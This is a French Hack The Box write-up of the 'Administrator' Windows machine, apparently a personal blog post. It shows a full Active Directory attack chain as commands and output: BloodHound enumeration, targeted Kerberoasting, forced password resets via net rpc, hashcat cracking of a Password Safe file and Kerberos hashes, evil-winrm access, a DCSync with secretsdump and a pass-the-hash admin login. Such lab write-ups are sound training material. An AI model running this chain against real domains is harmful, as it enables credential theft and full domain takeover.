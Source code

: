 ```yaml
---
title: Administrator - Windows Medium - HTB Writeup 
description:
slug: administrator-htb-writeup-windows-medium
date: 2025-04-19 00:00:00+0000
image: Administrator.PNG
categories:
    - Hack
    - Windows
    - Medium
tags:
    - ACL-based privileges
    - DCSync

# weight: 1       # You can add weight to some posts to override the default sorting (date descending)
---
```


Si vous êtes familier avec les box windows, cette box est très simple car elle reprend des chemins d'exploitation classiques.
## Résumé
User: ACL-based privileges\
Root: ACL-based privileges, DCsync

## Enumeration
A l’aide d’un scan nmap, nous pouvons identifier que cette machine est un contrôleur de domaine Active Directory.
{{< highlight go "hl_lines=1" >}}
$ nmap -Pn -p- 10.10.11.42 -v
PORT      STATE SERVICE
21/tcp    open  ftp
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
52649/tcp open  unknown
59626/tcp open  unknown
59631/tcp open  unknown
59638/tcp open  unknown
59643/tcp open  unknown
59655/tcp open  unknown
{{< /highlight >}}

On utilise ``bloodhound-python` avec le compte fourni `Olivia:ichliebedich` afin de récupérer des informations concernant le domaine `administrator.htb` (qu'on ajoute à notre /etc/hosts).

Rapidement, nous identifions qu'il va falloir compromettre le compte d'Ethan pour DCSync et récupérer le hash du domain admin.
![](InitialBH.png)


## User
### GenericWrite, Olivia -> Michael

Afin de compromettre le compte d'Ethan, nous devons compromettre le compte d'Emily qui a les privilèges `GenericWrite` sur le compte d'Ethan.
![](PathtoEthan.png)
Comme on peut le voir il n'y a pas de chemin direct vers Emily depuis le compte de Olivia.
![](PathtoEmily.png)

On va se concentrer sur les accès qu'à notre user initial Olivia.\
Elle a les privilèges `GenericAll` sur Michael, on va donc procéder à une attaque ciblée kerberoast afin de récupérer son hash.\
Le hash ne pouvant pas être cracké, on va utiliser les privilèges d'Olivia pour forcer le changement du mot de passe de Michael.
{{< highlight go "hl_lines=1 5 6 9" >}}
$ ./targetedKerberoast.py -v -d 'administrator.htb' -u 'olivia' -p 'ichliebedich'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (michael)
[+] Printing hash for (michael)
$krb5tgs$23$*michael$ADMINISTRATOR.HTB$administrator.htb/michael*$64da<...>d
[VERBOSE] SPN removed successfully for (michael)

$ net rpc password "michael" "michael_pass" -U "administrator.htb"/"olivia"%"ichliebedich" -S "administrator.htb"
{{< /highlight >}}

### ForceChangePassword, Michael -> Benjamin
En continuant notre énumération sur BH, on remarque que Michael peut changer le mot de passe de Benjamin.\
On utilise la même commande précédemment utilisée pour ce changement.
![](PathtoBenjamin.png)
{{< highlight go "hl_lines=1" >}}
$ net rpc password "benjamin" "benjamin_pass" -U "administrator.htb"/"michael"%"michael_pass" -S "administrator.htb"
{{< /highlight >}}

Benjamin fait partie du groupe `SHARE MODERATORS`.
![](BenjaminGroup.png)
On ne découvre rien d'intéressant sur les shares SMB mais, sur le FTP on trouve `Backup.psafe3` que l'on récupère et dont on crack le mot de passe avec hashcat.

### FTP et Backup.psafe3
{{< highlight go "hl_lines=1 6 8 18 32" >}}
$ ftp benjamin@10.10.11.42
<...>
ftp> ls
229 Entering Extended Passive Mode (|||50350|)
125 Data connection already open; Transfer starting.
10-05-24  09:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> mget backup.psafe3
mget Backup.psafe3 [anpqy?]? yes
229 Entering Extended Passive Mode (|||50354|)
125 Data connection already open; Transfer starting.
100% |*******************************************************************************************|   952       56.85 KiB/s    00:00 ETA
226 Transfer complete.
<...>
ftp> exit
221 Goodbye.

$ hashcat -a 0 -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt
<...>
Backup.psafe3:<...>                                
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5200 (Password Safe v3)
Hash.Target......: Backup.psafe3
Time.Started.....: Sat Apr 19 20:18:43 2025 (1 sec)
Time.Estimated...: Sat Apr 19 20:18:44 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    23899 H/s (6.93ms) @ Accel:256 Loops:1024 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 5120/14344385 (0.04%)
Rejected.........: 0/5120 (0.00%)
Restore.Point....: 4608/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:2048-2049
Candidate.Engine.: Device Generator
Candidates.#1....: Liverpool -> babygrl
Hardware.Mon.#1..: Util: 60%

Started: Sat Apr 19 20:18:42 2025
Stopped: Sat Apr 19 20:18:45 2025
{{< /highlight >}}

On utilise ce mot de passe pour ouvrir le fichier avec `pwsafe` et on récupère le mot de passe d'Emily.
{{< highlight go "hl_lines=1" >}}
$ pwsafe Backup.psafe3
{{< /highlight >}}
![](pwsafe.PNG)

On constate dans BH qu'Emily peut accéder à la machine, on s'y connecte avec `evil-winrm` pour récupérer le ```user.txt```.\
![](PSRemoteEmily.PNG)
{{< highlight go "hl_lines=1 8" >}}
$ evil-winrm -i 10.10.11.42 -u emily -p U<...>b
<...>
*Evil-WinRM* PS C:\Users\emily\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\emily\Desktop> dir
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/30/2024   2:23 PM           2308 Microsoft Edge.lnk
-ar---         4/19/2025   3:02 PM             34 user.txt
{{< /highlight >}}
![](pwsafe.PNG)

## Root
### GenericWrite, Emily -> Ethan

Comme vu précédemment, Emily a les privilèges `GenericWrite` sur le compte d'Ethan et Ethan peut DCsync.\
On va d'abord récupérer le hash d'Ethan et le cracker avec hashcat.
![](EmilytoEthan.PNG)
{{< highlight go "hl_lines=1 6 9 23" >}}
$ ./targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'U<...>b'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (ethan)
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$3<...>7
[VERBOSE] SPN removed successfully for (ethan)

$ hashcat -a 0 -m 13100 hash /usr/share/wordlists/rockyou.txt
<...>
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$3<...>7:l<...>t
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator....9cb327
Time.Started.....: Sat Apr 19 20:39:25 2025 (0 secs)
Time.Estimated...: Sat Apr 19 20:39:25 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   641.4 kH/s (0.52ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 5120/14344385 (0.04%)
Rejected.........: 0/5120 (0.00%)
Restore.Point....: 4608/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Liverpool -> babygrl
Hardware.Mon.#1..: Util: 71%

Started: Sat Apr 19 20:39:24 2025
Stopped: Sat Apr 19 20:39:27 2025
{{< /highlight >}}

### DCSync
Puis, on peut effectuer un DCsync avec le mot de passe obtenu en utilisant `secretsdump`.
![](EthantoDC.PNG)
{{< highlight go "hl_lines=1 3" >}}
$ ./secretsdump.py 'administrator.htb'/'ethan':'l<...>t'@'administrator.htb'
<...>
Administrator:500:a<...>e>:3<...>e:::
<...>
[*] Cleaning up...
{{< /highlight >}}

On peut maintenant utiliser `evil-winrm` pour se connecter au DC avec le NTHASH de l'admin.
{{< highlight go "hl_lines=1 7" >}}
$ evil-winrm -i 10.10.11.42 -u administrator -H 3<...>e
<...>
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         4/19/2025   6:52 PM             34 root.txt
{{< /highlight >}}
